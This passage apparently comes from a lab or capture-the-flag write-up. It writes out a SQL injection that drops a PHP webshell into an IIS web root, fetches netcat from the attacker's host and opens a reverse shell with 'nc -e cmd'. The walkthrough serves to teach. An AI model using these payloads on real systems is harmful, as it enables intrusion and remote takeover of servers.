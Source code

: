     
    
    <tr><td><?php system($_GET['cmd']); ?></td><td>2</td><td>3</td><td>4</td><td>5</td><td>6</td></tr>
    

But, now, I can run the same SQL command, but this time write it to a file,
guessing the default IIS path:

    
    
    productName=Asus' union select '<?php system($_GET[\'cmd\']); ?>',2,3,4,5,6 into outfile 'c:/inetpub/wwwroot/_0xdf.php'#
    

The page returns an error:

    
    
    Error: SQLSTATE[HY000]: General error
    

But if I POST the same command again, I get a different error saying the file
already exists:

    
    
    Error: SQLSTATE[HY000]: General error: 1086 File 'c:/inetpub/wwwroot/_0xdf.php' already exists
    

Now I can hit the webshell, and I have command execution:

    
    
    root@kali# curl -s 'http://10.10.10.167/_0xdf.php?cmd=whoami'
    nt authority\iusr
            2       3       4       5       6
    

#### Get NC Shell

I’ll start a Python webserver in the directory where I keep Windows `nc`, and
then run:

    
    
    root@kali# curl '10.10.10.167/_0xdf.php?cmd=powershell+wget+http://10.10.14.4/nc
    64.exe+-outfile+\windows\temp\nc.exe'
    

This will download `nc64.exe` to `\windows\temp\nc.exe`.

I get the request on my server:

    
    
    root@kali# cd /opt/shells/netcat/; python3 -m http.server 80; cd -
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.167 - - [24/Nov/2019 14:13:47] "GET /nc64.exe HTTP/1.1" 200 -
    

Now, with a local `nc` listener waiting, I’ll execute `nc` to get a shell:

    
    
    root@kali# curl '10.10.10.167/_0xdf.php?cmd=\windows\temp\nc.exe+-e+cmd+10.10.14.4+443'
    

I get a shell as iusr immediately:

    